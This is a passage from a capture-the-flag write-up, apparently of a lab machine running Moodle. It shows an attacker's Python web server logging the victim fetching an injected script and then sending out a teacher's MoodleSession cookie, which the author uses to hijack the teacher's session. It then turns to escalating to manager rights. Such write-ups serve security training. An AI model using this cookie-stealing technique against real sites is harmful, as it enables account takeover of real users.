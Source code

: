 The teacher looks every two minutes at the users profiles, so we get a hit on our webserver back relatively quick with the teachers session id.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.186.182 - - [14/Aug/2021 10:46:20] "GET /a.js HTTP/1.1" 200 -
10.129.186.182 - - [14/Aug/2021 10:46:20] code 404, message File not found
10.129.186.182 - - [14/Aug/2021 10:46:20] "GET /MoodleSession=2h002baljt8tk8eb9dl201ar58 HTTP/1.1" 404 -
```

Switching his session id with ours in the browser we are now logged in as Manuel Phillips and have some additional rights.

[![logged_in_teacher](/img/schooled/logged_in_teacher.png)](/img/schooled/logged_in_teacher.png)

### Manager

Going over to a course we can now click on the `Moodle Docs for this page` link, which takes us to the corresponding Documentation of the running moodle version.
